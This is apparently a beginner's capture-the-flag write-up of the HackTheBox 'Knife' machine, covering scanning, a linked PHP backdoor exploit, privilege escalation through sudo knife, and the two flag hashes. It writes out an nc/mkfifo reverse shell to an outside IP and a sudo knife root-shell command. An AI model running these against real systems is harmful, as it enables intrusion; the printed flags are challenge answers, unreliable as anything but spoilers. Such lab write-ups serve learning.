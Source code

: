 This is my second box I will be attempt to pwn on HackTheBox. Let's get into it!

I did an nmap scan of the box's ip. The results showed that ports 22 and 80 were open. Specifically, port 80 was being used for an Apache web server. This is probably te best lead to go on.

        22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
        80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

I navigated to the web server and was greeted by an apparent medical site for a company called EMA. The web site was very bare bones. In fact, nothing on the web page was interactable.

I was at a lost at what to do, so I did some googling and learned about gobuster. It's a package that attempts directory traversal through a wordlist. The exact command I used was: gobuster dir -u 10.10.10.242 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x txt
I found that /server-status was a valid directory, but I didn't have permissions to access it. Directory enumeration ended up to be a dead end.

Next, I decided to take a look at the web server using inspect element. By looking at the header of 10.10.10.242 in the network tab, I was able to see that the website was being powered by PHP/8.1.0-dev.
I searched for exploits regarding that PHP version and came across this: https://www.exploit-db.com/exploits/49933. Pretty sick find.

After running the code, I got a shell. I ran "id" and found that I was logged in as a user named "james". I ran the "ls" command and saw listed directories. I tried to navgate through the directories but that didn't work. However, other commands seemed to be working fine. I decided to use a reverse shell to see if that would allow me to traverse through directories.

I looked at this website: https://pentestbook.six2dez.com/exploitation/reverse-shells for commands that can be used to create reverse shells. I used the first command underneath the bash section: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.57 1337 >/tmp/f and generated a reverse shell.

The reverse shell allowed me to navigate through the directories! I went to /home/james and saw a file called user.txt. That's the first flag: 17c3bb751e9961c0cbc0e1de916a4bd9

Now I had to do some privesc to get root. I tried sudo -l and saw this pop up:
User james may run the following commands on knife:
        
        (root) NOPASSWD: /usr/bin/knife

I ran knife -h to see what the available options were, but I didn't expect the help page to be so massive. A command that caught my eye was "knife exec". According to the knife documentation (https://docs.chef.io/workstation/knife_exec/), this command is able to run Ruby scripts. The syntax for running Ruby scripts is: knife exec -E 'RUBY CODE'

I tried to figure out how to use Ruby to elevate privileges, but then I remembered the really nifty site, gtfobins.github.io. I searched up knife and found this code: sudo knife exec -E 'exec "/bin/sh"'. Since this knife binary is able to be run as sudo by james, this command makes it so that the elevated privileges are not dropped, granting root access. 

After running the command, I ran "whoami" and saw that I was now the root user. I navigated to the root folder and got the root.txt hash: 449e1149cf6e5a01d86acfe53a80780d.

Overall, I can see why this box had a difficult rating of "easy." While attempting to solve the box, I got stuck in many places because I wasn't sure what exactly I was supposed to be looking for. However, now that I am familiar with the process, I can see how each of the steps from attaining a foothold to escalating privileges make a lot of sense.
